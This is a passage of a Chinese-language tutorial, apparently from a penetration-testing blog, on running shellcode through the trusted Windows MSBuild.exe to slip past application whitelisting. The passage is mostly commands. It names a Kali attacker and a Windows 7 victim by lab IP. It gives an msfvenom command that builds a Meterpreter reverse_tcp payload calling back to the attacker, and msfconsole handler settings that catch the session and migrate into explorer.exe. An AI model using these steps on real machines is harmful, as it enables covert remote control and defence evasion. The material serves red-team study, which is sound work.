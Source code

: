 而接下来的几种只适用于Windows。

攻击机：Kali Linux ：172.16.1.130

受害机：Win 7 ：172.16.1.135

## Windows白加黑

白加黑需要的payload可以使用[一句话下载姿势总结](https://y4er.com/post/download-shell/) 把payload下载到目标机器，这里不再赘述。

### MSBuild

> MSBuild是Microsoft Build Engine的缩写，代表Microsoft和Visual Studio的新的生成平台
>
> MSBuild可在未安装Visual Studio的环境中编译.net的工程文件
>
> MSBuild可编译特定格式的xml文件
>
> 更多基本知识可参照以下链接：
>
> https://msdn.microsoft.com/en-us/library/dd393574.aspx

意思就是msbuild可以编译执行csharp代码。

在这里我们需要知道的是msbuild的路径

加载32位的shellcode需要用32位的msbuild

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
```

加载64位的shellcode需要用64位的msbuild

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe
```

我们这里用64位的shellcode和64位的win7来操作。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.1.130 lport=4444 -f csharp
```

生成shellcode之后我们需要用到一个三好学生师傅的https://github.com/3gstudent/msbuild-inline-task

我们用的是`executes x64 shellcode.xml`的模板，把里面45行之后的改为自己的shellcode

然后msf监听

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.1.130
set LPORT 4444
set ExitOnSession false
set autorunscript migrate -n explorer.exe
exploit -j
```
